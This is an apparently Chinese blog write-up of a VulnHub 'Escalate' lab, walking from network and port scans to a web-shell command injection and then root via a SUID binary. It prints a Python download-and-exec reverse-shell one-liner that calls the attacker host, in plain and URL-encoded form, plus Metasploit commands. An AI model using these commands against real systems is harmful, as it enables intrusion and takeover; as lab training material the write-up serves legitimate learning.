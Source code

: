 #  vulnhub之Escalate的实践   
原创 真理  云计算和网络安全技术实践   2024-11-18 00:54  
  
本周实践的是vulnhub的Escalate镜像，  
  
下载地址，https://download.vulnhub.com/escalatelinux/Escalate_Linux.ova，  
  
用virtualbox导入成功，  
  
做地址扫描，sudo netdiscover -r 192.168.0.0/24，  
  
获取到靶机地址是192.168.0.191，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/F6TniceRacJ0WD3nn9GGPMhzLUH6icxkXtbxqAP7iaQYbv06m3cZRqPNmvqk5ehW9545Au4R1zUomRj64ZpQWPibGQ/640?wx_fmt=png&from=appmsg "")  
  
接着做端口扫描，sudo nmap -sS -sV -T5 -A -p- 192.168.0.191，  
  
发现靶机开了80端口的http服务，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/F6TniceRacJ0WD3nn9GGPMhzLUH6icxkXtt7V6p4hbUL1p9qwRMsh3cjegnXxBweib322X3eWkR2PictjggMOJw20Q/640?wx_fmt=png&from=appmsg "")  
  
继续对http服务进行路径暴破，dirb http://192.168.0.191 -X .php，  
  
发现http://192.168.0.191/shell.php，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/F6TniceRacJ0WD3nn9GGPMhzLUH6icxkXtk336h6NiaJap1RicT9OYRibgakO9jujTYPuey3ZhwnSTZX5k4DzMD2MNw/640?wx_fmt=png&from=appmsg "")  
  
浏览器访问http://192.168.0.191/shell.php，提示有命令执行漏洞，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/F6TniceRacJ0WD3nn9GGPMhzLUH6icxkXtP6RPmBLVO6N94FbAtuO7sL1JWIyLcogHIRtReauicsxK9X7hQ5H0eVA/640?wx_fmt=png&from=appmsg "")  
  
用id验证一下，http://192.168.0.191/shell.php?cmd=id，没问题，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/F6TniceRacJ0WD3nn9GGPMhzLUH6icxkXtYuNOtN33o3NwSPuZkzpoBuyiaHFWzicUCWpLdgrbficqDqlHKbR2BPD4A/640?wx_fmt=png&from=appmsg "")  
  
上msf，在kali攻击机上制作反弹shell命令，并开启反弹shell监听，  
  
use exploit/multi/script/web_deliveryset SRVHOST 192.168.0.190set SRVPORT 8080set LHOST 192.168.0.190exploit  
  
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.0.190:8080/a2mz3sBsA', context=ssl._create_unverified_context());exec(r.read());"  
  
直接执行发现无效，上burpsuite进行url编码，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/F6TniceRacJ0WD3nn9GGPMhzLUH6icxkXtDUEBVIUPXGW5eibq2jqLzTl6EafFYZibAkSib5TsjtM6rO5YxbuAE0k6A/640?wx_fmt=png&from=appmsg "")  
  
%70%79%74%68%6f%6e%20%2d%63%20%22%69%6d%70%6f%72%74%20%73%79%73%3b%69%6d%70%6f%72%74%20%73%73%6c%3b%75%3d%5f%5f%69%6d%70%6f%72%74%5f%5f%28%27%75%72%6c%6c%69%62%27%2b%7b%32%3a%27%27%2c%33%3a%27%2e%72%65%71%75%65%73%74%27%7d%5b%73%79%73%2e%76%65%72%73%69%6f%6e%5f%69%6e%66%6f%5b%30%5d%5d%2c%66%72%6f%6d%6c%69%73%74%3d%28%27%75%72%6c%6f%70%65%6e%27%2c%29%29%3b%72%3d%75%2e%75%72%6c%6f%70%65%6e%28%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%39%30%3a%38%30%38%30%2f%61%32%6d%7a%33%73%42%73%41%27%2c%20%63%6f%6e%74%65%78%74%3d%73%73%6c%2e%5f%63%72%65%61%74%65%5f%75%6e%76%65%72%69%66%69%65%64%5f%63%6f%6e%74%65%78%74%28%29%29%3b%65%78%65%63%28%72%2e%72%65%61%64%28%29%29%3b%22  
  
再次执行获取到了反弹shell，sessions -i 1进入msf shell，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/F6TniceRacJ0WD3nn9GGPMhzLUH6icxkXtlR95u0qOibj11icSR9icCengqqAoIkAvaQqznMvxN80nm8Hyf9MYuXCsw/640?wx_fmt=png&from=appmsg "")  
  
进入普通shell，并改成交互式shell，  
  
python -c 'import pty;pty.spawn("/bin/bash")'，  
  
查找root权限程序，find / -perm -u=s -type f 2>/dev/null，  
  
发现/home/user3/shell，进入cd /home/user3，执行./shell，  
  
获取到新的shell，id确认是root，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/F6TniceRacJ0WD3nn9GGPMhzLUH6icxkXtL5mm7Bxic8x4SeyPj6Pib1r7CTwr9wvPlBaKEiblk1jgTrKZn3louJvaw/640?wx_fmt=png&from=appmsg "")  
  
  
